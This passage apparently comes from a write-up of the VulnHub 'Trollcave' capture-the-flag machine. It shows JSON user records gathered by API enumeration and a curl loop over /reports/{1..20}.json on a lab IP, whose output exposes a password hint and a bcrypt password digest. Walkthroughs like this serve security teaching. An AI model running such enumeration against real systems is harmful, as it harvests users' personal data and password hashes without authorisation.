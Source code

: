 ```
  "updated_at": "2020-05-01T06:40:12.447Z"
}{
  "id": 13,
  "name": "kev",
  "email": "kevin@zmail.com",
  "password": null,
  "created_at": "2017-10-23T09:39:42.548Z",
  "updated_at": "2020-05-01T06:40:12.477Z"
}{
  "id": 14,
  "name": "notanother",
  "email": "notanother@zmail.com",
  "password": null,
  "created_at": "2017-10-23T09:39:42.626Z",
  "updated_at": "2020-05-01T06:40:12.497Z"
}{
  "id": 15,
  "name": "anybodyhome",
  "email": "anybodyhome@zmail.com",
  "password": null,
  "created_at": "2017-10-23T09:39:42.702Z",
  "updated_at": "2020-05-01T06:40:12.517Z"
}{
  "id": 16,
  "name": "onlyme",
  "email": "onlymememe@zmail.com",
  "password": null,
  "created_at": "2017-10-23T09:39:42.779Z",
  "updated_at": "2020-05-01T06:40:12.536Z"
}{
  "id": 17,
  "name": "xer",
  "email": "xer@zmail.com",
  "password": null,
  "created_at": "2017-10-23T09:39:42.856Z",
  "updated_at": "2020-05-01T06:40:12.553Z"
}{
  "status": "404",
  "error": "Not Found"
}{
  "status": "404",
  "error": "Not Found"
}{
  "status": "404",
  "error": "Not Found"
}
```
We can also enumerate for the reports directory:
```
kali@kali:~/vulnhub/trollcave$ curl -s http://192.168.251.9/reports/{1..20}.json

{
  "id": 1,
  "content": "offensive comment, not even clever.",
  "user": {
    "id": 17,
    "name": "xer",
    "email": "xer@zmail.com",
    "password_hint": "fave pronoun",
    "password_digest": "$2a$10$W2Y0kBt5mAae81o9yK.hSe7SG3mgVQmIXT/O13hGJlJ8qMDtxz0VG",
    "remember_digest": null,
    "role": 1,
    "hits": 43,
```